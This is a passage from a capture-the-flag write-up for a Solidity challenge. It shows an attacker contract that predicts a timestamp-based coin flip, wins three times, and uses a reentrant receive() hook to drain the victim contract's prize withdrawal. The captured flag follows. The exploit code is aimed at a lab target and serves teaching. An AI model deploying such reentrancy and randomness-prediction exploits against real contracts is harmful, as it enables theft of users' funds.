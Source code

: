 ```solidity
                    keccak256(abi.encodePacked(block.timestamp ^ 0x1F2DF76A6))
                ) % 2
            );
    }

    function win() public payable {
        require(address(this).balance >= 1 ether, "Send contract some ether");
        RollsRoyce.CoinFlipOption result = flipCoin();
        victim.guess{value: 1 ether}(result);
        victim.revealResults();
    }

    function pwnContract() public payable {
        for (uint i = 0; i < 3; i++) {
            win();
        }
        victim.withdrawFirstWinPrizeMoneyBonus();
    }

    receive() external payable {
        if (victim.viewWins(address(this)) >= 3 && address(victim).balance > 0) {
            victim.withdrawFirstWinPrizeMoneyBonus();
        }
    }
    
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }

    function withdrawBalance(uint amount) public {
        require(msg.sender == owner, "You not owner!");
        require(address(this).balance >= amount, "This contract has no more funds!");
        (bool success, ) = msg.sender.call{value: amount}("");
    }
}
```

For simplicity, everything can be done from within a single function call `pwnContract()` itself, which includes winning the coin flip 3 times consecutively, and also making the call to the exploitable `withdrawFirstWinPrizeMoneyBonus()` function. We simply just have to call the `pwnContract()` function, transfer 3 ether to it and then, we'd solve the challenge.

To also make things more realistic, we can also implement a `withdrawBalance()` function to withdraw funds from the contract (otherwise the funds are simply stuck in the contract and lost forever once deployed!)

Once we call `pwnContract()`, we can see that challenge has been solved and isSolved() has been set to true!

![image](https://user-images.githubusercontent.com/33711159/173044701-0a860127-b0f7-436e-9191-da44ab4f23f2.png)

Now let's go grab our flag :)

![image](https://user-images.githubusercontent.com/33711159/173044866-3814bcf0-144b-44a3-adcd-98cb18aca9cd.png)
`SEE{R4nd0m_R0yC3_6390bc0863295e58c2922f4fca50dab9}`

